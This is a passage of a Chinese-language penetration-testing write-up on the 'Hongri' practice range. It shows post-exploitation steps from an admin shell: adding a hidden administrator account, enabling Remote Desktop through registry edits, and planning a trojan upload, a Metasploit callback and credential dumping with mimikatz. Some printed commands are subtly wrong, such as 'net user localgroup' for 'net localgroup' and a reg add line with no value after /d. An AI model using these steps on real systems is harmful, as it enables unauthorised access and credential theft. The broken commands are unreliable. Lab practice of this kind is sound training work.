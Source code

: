 ![image-20210809172615660](红日靶场内网渗透.assets/image-20210809172615660.png)

由于此时的荷载直接就进入cmd窗口并不能使用工具，而且该权限为管理员权限，有两条思路:

```
1.添加新用户将其放入管理员用户组中以管理员的权限执行(添加用户原因是因为我们不知道管理员的密码无法登录)，然后开通3389(远程桌面)、22(ssh端口)等端口，通过连接前面的端口服务将生成的后台木马传入目标主机，然后使用msf等待上线。使用mimikatz、hashdump等来读内存和注册表中的密码，因为域内该主机的系统是Winserver 2008,默认存储明文密码，不需要进行sha1解密等

2.寻找其他攻击载荷，直接通过msf拿到session
```



**1.添加管理员组新用户，开通敏感服务连接上传木马**

``` 
net   user    haoyun        Yzt096877     /add                            ###添加haoyun用户
           
net   user   localgroup   administrators     haoyun     /add              ###添加haoyun到管理员用户组中
```



开启3389远程桌面服务，要在cmd窗口开启3389端口通过修改注册表和使用内网穿透工具netsh等

由于这里没有办法上传netsh，只能通过在cmd修改注册表开启远程桌面

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server"              ###查询注册表键值

reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections     ###删除注册表键值

reg add     "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d   ###添加注册表键值修改FdenyTSConnections键值
```
